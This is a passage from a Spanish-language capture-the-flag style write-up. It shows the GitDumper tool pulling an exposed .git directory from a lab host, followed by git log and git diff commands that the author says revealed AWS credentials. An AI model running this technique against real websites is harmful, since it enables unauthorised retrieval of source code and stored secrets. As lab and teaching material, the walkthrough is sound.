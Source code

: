 
## Repositorio Git
Regresando al puerto 80 para obtener los archivos del repositorio, utilizamos la herramienta `gitdumper` 
```BASH
└─$ ./gitdumper.sh http://10.10.11.134/.git/ repo                                            
###########                                         
# GitDumper is part of https://github.com/internetwache/GitTools                                            
#                                                   
# Developed and maintained by @gehaxelt from @internetwache                                      
#                                         
# Use at your own risk. Usage might be illegal in certain circumstances.                                    
# Only for educational purposes!                                      
###########                                         
[*] Destination folder does not exist
[+] Creating repo/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/c6/22771686bd74c16ece91193d29f85b5f9ffa91
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/7c/f92a7a09e523c1c667d13847c9ba22464412f3
[+] Downloaded: objects/c5/1441640fd25e9fba42725147595b5918eba0f1
[+] Downloaded: objects/b1/0dd06d56ac760efbbb5d254ea43bf9beb56d2d
[+] Downloaded: objects/ce/401ccecf421ff19bf43fafe8a60a0d0f0682d0
[+] Downloaded: objects/5c/52105750831385d4756111e1103957ac599d02
[+] Downloaded: objects/b5/f4c99c772eeb629e53d284275458d75ed9a010
[+] Downloaded: objects/ab/07f7cdc7f410b8c8f848ee5674ec550ecb61ca
[+] Downloaded: objects/cf/489a3776d2bf87ac32de4579e852a4dc116ce8
[+] Downloaded: objects/65/b80f62da28254f67f0bea392057fd7d2330e2d
[+] Downloaded: objects/df/dfa17ca5701b1dca5069b6c3f705a038f4361e
[+] Downloaded: objects/8d/3b52e153c7d5380b183bbbb51f5d4020944630
[+] Downloaded: objects/fe/d7ab97cf361914f688f0e4f2d3adfafd1d7dca
[+] Downloaded: objects/54/5f6fe2204336c1ea21720cbaa47572eb566e34
```
Una vez que ya descargamos el  vemos los commits realizados en el repositorio, donde notamos que se actualizó un archivo entre los dos primeros, revisando la diferencia entre estos dos commits encontramos credenciales para conectarnos por medio de aws.
```BASH
└─$ git log --oneline --graph --all
* c622771 (HEAD -> master) Fixed Typo
* b10dd06 Adding Costume Site
* c514416 Updatig Tracking API
* 7cf92a7 Adding Tracking API Module

└─$ git diff c514416 7cf92a7
diff --git a/track_api_CR_148.py b/track_api_CR_148.py
```